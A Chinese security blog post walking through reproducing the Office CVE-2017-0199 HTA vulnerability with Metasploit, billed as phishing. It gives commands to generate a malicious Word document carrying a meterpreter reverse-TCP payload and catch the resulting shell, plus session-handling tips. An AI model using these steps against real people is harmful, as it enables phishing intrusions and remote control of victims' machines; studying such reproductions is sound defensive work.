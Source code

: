 Title:用office的CVE-2017-0199漏洞进行钓鱼（二）
Date: 2017-12-22 10:20
Category: 漏洞
Tags: office,漏洞,钓鱼
Slug: 
Authors: bit4
Summary: HTA Handler Vulnerability



上一篇已经一步一步手动复现了该漏洞，也弄清楚了一些小的疑问，本篇将使用metasploit进行复现。

### 0x0、metasploit的复现过程

```
msfupdate
msfconsole
search CVE-2017-0199
```

如果更新后找不到模块，可以直接到github上下载

https://github.com/rapid7/metasploit-framework/issues/8220

https://github.com/rapid7/metasploit-framework/pull/8254

![msf_search](img/CVE-2017-0199-msf/msf_search.png)

而后加载该模块，并且设置各项参数，比如payload等。

```
use exploit/windows/fileformat/office_word_hta
set payload windows/meterpreter/reverse_tcp
show options
run
```

![msf_options](img/CVE-2017-0199-msf/msf_run.png)

成功生成了恶意文件并监听4444端口之后，我们就可以保存msf.doc文件到本地并执行了。

```
新开一个shell然后执行
sz  /root/.msf4/local/msf.doc
```

![success](img/CVE-2017-0199-msf/success.png)

可以看到成功反弹了shell。注意，要想成功反弹shell，需要保证监听服务器和webdav服务器在运行msf.doc的主机上都可以正常访问才行。

### 0x1、关于metasploit

1. 一个监听端口可以接收多个反弹会话的。

2. sessions的操作，当前session到后台运行 `background` , 进入某个session：session session_ID

   ![session_operation](img/CVE-2017-0199-msf/session_operation.png)

3. jobs的操作，将某个job调用到前台：use exploit/xxx/xxx；将当前job调到后台：back ；杀死某个job：kill job_id

   ![job_operation](img/CVE-2017-0199-msf/job_operation.png)

   ![kill_job](img/CVE-2017-0199-msf/kill_job.png)

4. 有一个小坑：阿里云的VPS（ECS）上，所有网卡上的IP地址都是内网地址，没有外网地址（应该是有映射机制，当访问外网地址http://外网IP:8080/default.hta 会被映射到内网地址http://内网IP:8080/default.hta，验证过的），而msf绑定SRVHOSR:SRVPORT的时候似乎是根据网络来的，所以就无法绑定外网地址，上面的例子里，就无法将HTA的URL向外网开放。有前面说的映射机制，应该也能访问到才对啊，但问题是生成的msf.doc文件中，写死了要请求的URL（即内网的URL，尝试了手动更新，也未成功）。只好换个vps进行实验了。